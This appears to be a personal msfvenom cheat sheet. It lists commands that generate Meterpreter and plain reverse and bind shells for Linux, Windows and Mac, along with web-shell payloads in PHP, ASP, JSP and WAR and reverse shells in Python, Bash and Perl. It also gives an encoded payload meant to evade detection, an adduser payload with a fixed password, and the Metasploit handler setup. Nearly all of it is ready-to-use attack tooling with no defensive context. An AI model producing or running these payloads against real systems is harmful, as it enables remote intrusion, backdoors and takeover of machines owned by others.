 # MSFVENOM cheat sheet

## for generating shells and shellcode

List payloads
msfvenom -l

Binaries Payloads

Linux Meterpreter Reverse Shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf

Linux Bind Meterpreter Shell
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf

Linux Bind Shell
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf

Windows Meterpreter Reverse TCP Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe

Windows Reverse TCP Shell
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe

Windows Encoded Meterpreter Windows Reverse Shell
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

Mac Reverse Shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho

Mac Bind Shell
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho

Web Payloads

PHP Meterpreter Reverse TCP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php

ASP Meterpreter Reverse TCP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp

JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

Scripting Payloads

Python Reverse Shell
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py

Bash Unix Reverse Shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh

Perl Unix Reverse shell
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl

Shellcode

Windows Meterpreter Reverse TCP Shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Linux Meterpreter Reverse TCP Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Mac Reverse TCP Shellcode
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Create User
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe

Metasploit Handler

use exploit/multi/handler
set PAYLOAD <Payload name>
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run




tags: #shell #msfvenom #christian 
